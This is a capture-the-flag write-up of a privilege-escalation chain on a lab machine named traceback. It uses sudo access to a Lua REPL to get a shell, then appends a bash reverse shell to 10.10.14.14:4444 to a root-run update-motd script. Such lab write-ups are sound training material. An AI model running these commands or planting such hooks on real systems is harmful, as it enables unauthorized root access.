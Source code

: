 # 15 - PrivEsc

# note.txt
```bash
webadmin@traceback:~$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```


# luvit
```bash
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit

```

# Luvit
```bash
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute('id')
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
true    'exit'  0
> os.execute('bash -i')
sysadmin@traceback:~$ 
```




# Motd
![](vx_images/1069880223195.png)

Motd is used to send a common message to all users. The service runs as root.

```bash
sysadmin@traceback:/etc/update-motd.d$ ls -la
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22 06:08 .
drwxr-xr-x 80 root root     4096 Apr 22 06:08 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 10:46 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 10:46 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 10:46 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 10:46 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 10:46 91-release-upgrade
```

Sysadmin has write permission on the configuration files.

```bash
sysadmin@traceback:/etc/update-motd.d$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.14/4444 0>&1'" >> 00-header
```

We can trigger the service to print the day of the message by just logging in.


![](vx_images/3573162138008.png)



# Root
![](vx_images/5836978857403.png)